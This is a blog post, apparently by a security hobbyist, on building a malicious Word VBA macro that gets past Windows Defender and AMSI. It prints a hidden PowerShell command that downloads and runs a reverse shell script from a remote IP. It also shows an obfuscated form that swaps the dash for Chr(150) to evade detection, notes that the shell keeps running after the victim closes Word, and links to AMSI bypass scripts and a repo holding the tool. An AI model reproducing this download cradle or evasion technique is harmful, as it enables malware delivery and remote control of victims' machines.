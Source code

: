 ```yaml
---
title: Create Malicious Macro
author: ScriptChildie
date: 2020-10-11 12:25:00 +0000
categories: []
tags: []
---
```


# MaliciousVBA (Not Detected by Windows Defender or AMSI)

I was reading various articles on how other go about bypassing AMSI using VBA. A great article can be found on this blog [codewhitesec](https://codewhitesec.blogspot.com/2019/07/heap-based-amsi-bypass-in-vba.html).

Instead of trying to replicate that I chose a different route. I tried using the powershell command Invoke-Experession to download [Nikhil's](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script.


## Running Powershell in VBA

In order to run powershell commands using VBA I have used the code published in Microsoft's Docs [(here)](https://docs.microsoft.com/en-us/office/vba/access/concepts/windows-api/determine-when-a-shelled-process-ends). The code is ideal for this project because it doesn't get flagged by the Antivirus or AMSI. It also spawns a seperate process. That's particularly helpful since our script won't terminate if the victim closes Word. 

## Powershell Command 
The command I wanted to run in this macro is the following:

```sh
Powershell.exe -WindowStyle Hidden IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.246/1234567892222.ps1')
```
This command was flagged by AMSI as malicious. After experimenting a bit with variations of this command i found out that the AMSI was flagging -WindowStyle as malicious. Splitting the string using conventional amsi bypassing techinques ("-W" + "indo" + "wStyle") was not effective. Instead I started replacing the '-' symbol with ascii character codes of the various "-" symbols. Finally Chr(150) did the trick and my reverse shell script was executed. 

The final form of the powershell command was:
```sh
Chr(112) + "ower" + "shell.exe " + Chr(150) + "WindowStyle Hidden" + "  IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.246/1234567892222.ps1')"
```
## Powershell script (Invoke-PowerShellTcp)
I have slightly modified [Nikhil's](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) script in order to avoid being detected by AMSI for powershell. Once connection is established an amsi bypass script can be used.[Here is a list of AMSI bypass scripts that can be used by S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)

## Download the files
You can download the files from my [Github Repo](https://github.com/scriptchildie/MaliciousVBA). 
